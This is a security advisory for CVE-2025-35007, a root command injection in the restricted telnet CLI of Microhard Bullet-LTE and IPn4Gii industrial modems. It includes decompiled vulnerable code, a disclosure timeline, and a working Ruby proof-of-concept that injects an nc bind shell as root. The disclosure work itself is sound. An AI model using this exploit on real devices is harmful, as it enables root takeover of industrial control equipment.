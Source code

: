 ```yaml
---
title: CVE-2025-35007
aliases:
  - /cves/CVE-2025-35007.html
pubDate: 2025-06-08T15:58:51-05:00
---
```


# CVE-2025-35007: Microhard Bullet-LTE and IPn4Gii AT+MFRULE Argument Injection

[AHA!] has discovered an issue with multiple Microhard products, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] on June 8, 2025. [CVE-2025-35007] has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

# Executive Summary

Products that incorporate the Microhard [BulletLTE-NA2] and [IPn4Gii-NA2] are vulnerable to a post-authentication command injection issue that can lead to privilege escalation. This is an instance of [CWE-88](https://cwe.mitre.org/data/definitions/88.html), "Improper Neutralization of Argument Delimiters in a Command ('Argument Injection')," and is estimated as a CVSS [7.1](https://www.first.org/cvss/calculator/3-1#CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N).

# Technical Details

A command injection vulnerability exists within the AT+MFRULE command in the restricted CLI interface of multiple Microhard products. Authentication is required to exploit this vulnerability in that you must have a user account to access the CLI via telnet. However, the service is running as root, so injecting commands allows an attacker to escape the restricted shell and elevate privileges for full access.

The [firmware] for affected devices contains the binary `/bin/clitest`, which handles the restricted CLI interface. It is reachable via telnet or ssh connection. It allows the user to run certain config commands as well as AT+ commands to interact with the Quectel modem. One of these AT+ commands is AT+MFRULE which is used for querying/configuring the firewall rules in general. User input supplied to the cmd_firewall_rule() function in param_3 and is used as an argument for the /etc/m_cli/atcmd_sh_firewall.sh script which is called via popen():


```
undefined4 cmd_firewall_rule(undefined4 param_1,undefined4 param_2,char **param_3,int param_4)
{
	...
                            if (iVar1 != 0) {
                              iVar1 = atoi(param_3[3]);
                              iVar7 = atoi(param_3[4]);
                              iVar4 = atoi(param_3[5]);
                              iVar5 = atoi(param_3[9]);
                              iVar6 = atoi(param_3[0xe]);
                              sprintf(acStack_21a0,
                                      "sh /etc/m_cli/atcmd_sh_firewall.sh %s %s %s %s %s %s %s %s %s  %s %s %s %s %s"
                                      ,"rule_set_one",acStack_2220,auStack_1e90 + iVar1 * 0x84,
                                      auStack_201c + iVar7 * 0x84,acStack_19ec + iVar4 * 0x84,
                                      param_3[6],param_3[7],param_3[8],acStack_19ec + iVar5 * 0x84,
                                      param_3[10],param_3[0xb],param_3[0xc],param_3[0xd],
                                      auStack_1c80 + iVar6 * 0x84);
                              iVar1 = FUN_0000e9a0(param_1,acStack_21a0,acStack_2120,0x100);
                              if (iVar1 == 0) {
                                pcVar8 = "ERROR";
                                goto LAB_0002b504;
                              }
                            }
	...
}

size_t FUN_0000e9a0(undefined4 param_1,char *param_2,void *param_3,size_t param_4)
{
  FILE *__stream;
  char *__s;
  size_t sVar1;

  __stream = popen(param_2,"r");
  if (__stream != (FILE *)0x0) {
    memset(param_3,0,param_4);
    fread(param_3,1,param_4,__stream);
    pclose(__stream);
    __s = (char *)trimwhitespace(param_3);
    sVar1 = strlen(__s);
    return sVar1;
  }
  cli_print(param_1,"ERROR: Failed to run script");
  return 0;
}
```

If an attacker wraps input to the AT+MFRULE command in `$()` (dollar-parentheses) or backticks (which are tricky to render in Markdown!) they can put whatever command they want and it will be run as the root user. Note that spaces are not allowed, so $IFS must be used instead for space-delimited arguments for the command payload.

The Ruby script below effectively demonstrates an attack using [CVE-2025-35007] as a proof-of-concept:

```ruby
#!/usr/bin/env ruby
require 'net/telnet'
require 'io/console'

if !ARGV[0]
  puts "usage: #{$0} <ip> [<username> <password>]"
  exit(1)
end

target = ARGV[0]
if ARGV[1] && ARGV[2]
  user = ARGV[1]
  pass = ARGV[2]
else
  printf("user: ")
  user = STDIN.gets.chomp
  printf("pass: ")
  pass = STDIN.noecho(&:gets).chomp
  puts ""
end

telnet = Net::Telnet::new("Host" => target, "Timeout" => 2, "Prompt" => /^\w+>/)
telnet.login(user,pass) {|c| print c}
begin
  telnet.cmd("at+mfrule=`nc$IFS-lvp$IFS\\4444$IFS-e$IFS/bin/sh$IFS-i`") {|c| print c}
rescue
  puts "shell spawned on #{ARGV[0]}:4444"
  pid = spawn("nc -v #{ARGV[0]} 4444")
  Process.wait pid
end

telnet.close
```

# Attacker Value

If an attacker has a valid credential to the affected Microhard device, and the means to login (for example, over telnet), that attacker can leverage this vulnerability to escape the restricted shell and elevate privileges to root. Industrial control systems (ICS) are often deployed with easy to guess or default credentials, which could be used in conjunction with [CVE-2025-35007] to achieve complete, root-level remote control over affected devices.

# Credit

This vulnerability was discovered and documented by Ricky "HeadlessZeke" Lawshae of Keysight.

# Timeline

* 2025-03-27 (Thu): Presented at regularly scheduled AHA! meeting 0x00df
* 2025-04-02 (Wed): Contact initiated to several guessed email aliases, such as info@microhardcorp.com,  support@microhardcorp.com, etc.
* 2025-04-02 (Wed): Bounces collected from media@, press@, security@, and secure@. No bounce notification was generated from info@ and support@, though a customer account was required to further communicate with support@, which [AHA!] does not have.
* 2025 (April and May): No further communication from the vendor was received.
* 2025-06-08 (Sun): Verified current IPn4Gii/BulletLTE [firmware] remains at v1.2.0-r1132
* 2025-06-08 (Sun): Public disclosure of [CVE-2025-35007]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2025-35007]: https://www.cve.org/CVERecord?id=CVE-2025-35007
[BulletLTE-NA2]: https://www.microhardcorp.com/BulletLTE-NA2.php
[IPn4Gii-NA2]: https://www.microhardcorp.com/IPn4Gii-NA2.php
[firmware]: https://support.microhardcorp.com/portal/en/kb/articles/ipn4gii-bullet-lte-firmware
